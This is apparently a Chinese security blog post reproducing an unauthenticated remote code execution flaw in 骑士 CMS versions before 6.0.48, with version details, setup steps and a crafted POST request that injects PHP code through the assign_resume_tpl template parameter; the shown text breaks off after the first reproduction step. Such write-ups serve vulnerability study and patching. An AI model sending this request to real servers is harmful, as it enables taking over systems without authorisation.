 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/4-36O4OaWxu2jX2pzb5_Wg)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****microworld****@Timeline Sec  
**

**本文字数：3919**

**阅读时长：8～10min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

骑士 cms 人才系统，是一项基于 PHP+MYSQL 为核心开发的一套**免费 +** 开源专业人才网站系统。软件具执行效率高、模板自由切换、后台管理功能方便等诸多优秀特点。  

**0x02 漏洞概述**  

  

骑士 CMS 官方发布安全更新，修复了一处远程代码执行漏洞。由于骑士 CMS 某些函数存在过滤不严格，攻击者通过构造恶意请求，配合文件包含漏洞可在无需登录的情况下执行任意代码，控制服务器。  

**0x03 影响版本**  

  

骑士 CMS < 6.0.48

**0x04 环境搭建**  

  

骑士 cms 不支持 php7.0，所以建议使用 php5  

官网下载 6.0.20 版本  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshdYRYdia9CuMTowIjuIoL4J2AcAdgiaQ1G0YD1RgtdEauyuUmp5e56tWfxty2REX0AULFhiaGInWyhQ/640?wx_fmt=png)

将源码放在 web 根目录下，访问 / index.php 进行安装

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshdYRYdia9CuMTowIjuIoL4JBQy1darxxXDQon2CE4jKtwDhz8Z0AVFYLhiaD1WoYyTMO4A7NReQCVg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVshdYRYdia9CuMTowIjuIoL4JlMbSFgAo7zI2xbrqQYNfrSy1GsMTD9WFDPxX9CG9yZDOlPZmdCGDqA/640?wx_fmt=png)

**0x05 漏洞复现**  

  

1. 发送如下请求：

```
http://[IP]/index.php?m=home&a=assign_resume_tpl
POST:
variable=1&tpl=<?php phpinfo(); ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsj834jw1HQjHYLQjnWLrvBaGQKSAO4ZUuWJtzkouWoDuUYqibIAMiahXCWBw6Y977yXGyOicTRTqt7ng/640?wx_fmt=png)  
